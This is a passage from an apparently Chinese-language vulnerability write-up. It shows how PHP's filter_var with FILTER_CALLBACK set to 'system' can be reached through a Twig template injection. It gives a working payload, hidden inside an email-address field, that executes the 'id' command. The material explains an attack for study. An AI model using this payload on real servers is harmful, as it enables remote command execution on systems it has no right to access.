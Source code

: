 到这里`filter_var($value, $filter, $options)` 中的三个参数都能控制
[![img](assets/20200330133930-d3d5311a-7248-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200330133930-d3d5311a-7248-1.png)

`filter_var`可以设置个回调函数为system，`FILTER_CALLBACK` 的值为1024

> php > echo FILTER_CALLBACK;
> 1024
> php >

数组参数可以通过`{'key':'value'}`传递。

所以payload 可以这样构造

```php
"{{app.request.query.filter(0,'id',1024,{'options':'system'})}}"@sometimenaive.com
```

这样可以执行成功
[![img](assets/20200330133941-da3ceb10-7248-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200330133941-da3ceb10-7248-1.png)
